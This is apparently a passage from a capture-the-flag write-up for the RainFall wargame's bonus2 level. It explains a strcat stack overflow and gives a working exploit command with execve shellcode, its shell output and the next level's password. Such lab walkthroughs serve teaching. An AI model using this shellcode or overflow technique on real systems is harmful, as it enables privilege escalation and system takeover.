 ```
   0x0804850a <+134>:   lea    0x8(%ebp),%eax
   0x0804850d <+137>:   mov    %eax,0x4(%esp)
   0x08048511 <+141>:   lea    -0x48(%ebp),%eax
   0x08048514 <+144>:   mov    %eax,(%esp)
   0x08048517 <+147>:   call   0x8048370 <strcat@plt>
   0x0804851c <+152>:   lea    -0x48(%ebp),%eax
   0x0804851f <+155>:   mov    %eax,(%esp)
   0x08048522 <+158>:   call   0x8048390 <puts@plt>
```

- The `<greetuser>` function will simply concatenate our parameters to a greeting message and then display it. The greeting message depends on the "LANG" environment variable. The problem is that it concatenates a buffer that can contain up to 0x48 characters after a string in an area located just 0x48 bytes above the ebp. If the buffer actually contains 0x48 characters, this has the effect of modifying the return address of the `<greetuser>` function (an address located just before ebp).

- However, when the chosen language is neither "fi" nor "nl," English is chosen by default. The English greeting message is not long enough to allow our buffer to completely modify the return address of `<greetuser>`. To fully exploit this vulnerability, we will first need to change the "LANG" environment variable.

- So:
```
bonus2@RainFall:~$ export LANG=fi
bonus2@RainFall:~$ ./bonus2 $(python -c "print('\x90'*26 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68')") $(python -c "print('\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*10 + '\x2e\xf6\xff\xbf')")

$ whoami  
bonus3

$ cat /home/user/bonus3/.pass            
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
